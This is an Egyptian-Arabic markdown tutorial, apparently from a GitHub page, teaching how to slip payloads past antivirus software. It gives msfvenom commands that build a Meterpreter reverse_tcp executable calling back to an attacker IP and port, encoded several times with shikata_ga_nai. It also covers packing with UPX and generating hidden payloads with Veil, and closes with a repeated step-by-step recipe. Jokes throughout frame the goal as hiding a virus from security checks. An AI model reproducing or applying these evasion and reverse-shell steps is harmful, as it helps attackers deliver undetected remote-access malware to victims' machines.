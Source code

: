 ## **🚀 استخدام تقنيات التشفير (Encoding) والتعبئة (Packing) لتجاوز الحماية 🚀**

### **🔹 يعني إيه Encoding و Packing؟**

عشان تفهم الفكرة ببساطة، برامج الحماية زي الـ **Antivirus** بتعتمد على **التوقيعات (Signatures)** عشان تتعرف على الملفات الخبيثة. فلو قدرت **تغير شكل الفيروس بتاعك** بحيث ما يبقاش مطابق للتوقيع اللي الـ Antivirus متوقعه، يبقى كده عديت من الفحص.

✔ **🔑 Encoding:**

- تحويل شكل الـ **Payload** لشيء مش مفهوم للـ Antivirus، وبعدين نفكه عند تشغيله.
- مثال: لو عندك `payload.exe` والـ Antivirus شايفه كفيروس، ممكن تشفره بـ `Base64` أو `xor` عشان يتغير شكله.

✔ **🔑 Packing:**

- ضغط الملف وإخفاء معالمه داخل قالب جديد عشان الـ Antivirus ميقدرش يحلله بسهولة.
- مثال: لو عندك `payload.exe`، ممكن تستخدم `UPX` أو `Veil` لتعبئته بحيث يخدع برامج الحماية.

🎯 **💬 الخلاصة بالمصري:**  
"بدل ما تسيب الفيروس بشكل مكشوف، شفره أو حطه في صندوق (Packed) بحيث الـ Antivirus ميعرفوش! 😏"

---

## **🟢 1. استخدام `MSFVenom` لتشفير الـ Payload (Encoding)**

**الفكرة:** تغيير شكل الكود بتاعنا بحيث يبقى مختلف عن الـ Signatures اللي الـ Antivirus عارفها.

🛠 **مثال على استخدام `shikata_ga_nai` لتشفير الـ Payload:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > encoded_payload.exe
```

🔹 `-e x86/shikata_ga_nai` → بيستخدم Encoder اسمه `shikata_ga_nai` لتغيير شكل الكود.  
🔹 `-i 5` → بيعيد التشفير 5 مرات، عشان يغير شكله أكتر.

🎯 **💬 الخلاصة بالمصري:**  
"لو واحد بيدور عليك، غيّر شكلك ولبسك عشان ميمسككش، نفس الكلام مع الفيروس! 😂"

---

## **🟢 2. استخدام `UPX` لضغط الـ Payload (Packing)**

**الفكرة:** الـ UPX هو أداة بتغلف الملفات التنفيذية (`.exe`) عشان تغير شكلها وتقلل حجمها، وكمان بتساعد في تخطي برامج الحماية.

🛠 **ضغط الـ Payload باستخدام UPX:**

```bash
upx --best --lzma payload.exe -o packed_payload.exe
```

🔹 `--best` → بيستخدم أقوى ضغط ممكن.  
🔹 `--lzma` → بيستخدم خوارزمية `LZMA` لضغط الملف.

🛠 **لفك الضغط عنه لاحقًا:**

```bash
upx -d packed_payload.exe
```

🎯 **💬 الخلاصة بالمصري:**  
"لو عايز تهرب حاجة في المطار، خبيها في شنطة شكلها بريء، ده اللي الـ UPX بيعمله مع الفيروس! 😆"

---

## **🟢 3. استخدام `Veil Framework` لتوليد Payload مخفي**

**الفكرة:** أداة `Veil` بتساعد في توليد Payloads متشفرة بحيث الـ Antivirus ميقدرش يكشفها.

🛠 **تشغيل Veil وتوليد Payload متخفي:**

```bash
veil
use 1
set LHOST 192.168.1.10
set LPORT 4444
generate
```

🔹 `use 1` → بيختار النوع الأول من الـ Payloads المتاحة.  
🔹 `set LHOST` و `set LPORT` → بيحددوا الـ IP والـ Port اللي الـ Payload هيتصل عليهم.

🎯 **💬 الخلاصة بالمصري:**  
"لو عايز تبعت رسالة من غير ما حد يفهمها، اكتبها بـ كود سري.. ده اللي `Veil` بيعمله مع الفيروس! 😎"

---

# **🛠️ خطوات عملية لتشفير وتعبئة الـ Payload لتخطي الـ Antivirus**

✅ **1. تشفير الـ Payload باستخدام `MSFVenom`**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > encoded_payload.exe
```

✅ **2. ضغط الـ Payload باستخدام `UPX`**

```bash
upx --best --lzma encoded_payload.exe -o packed_payload.exe
```

✅ **3. استخدام `Veil` لإنشاء Payload مخفي**

```bash
veil
use 1
set LHOST 192.168.1.10
set LPORT 4444
generate
```

🎯 **💬 الخلاصة النهائية بالمصري:**  
"عشان تعدي من برامج الحماية، لازم تغير شكل الفيروس، تغلفه، وتشفّره كويس.. كأنك بتخبي حاجة خطيرة في شنطة سفر مش هتتفتش! 😏🔥"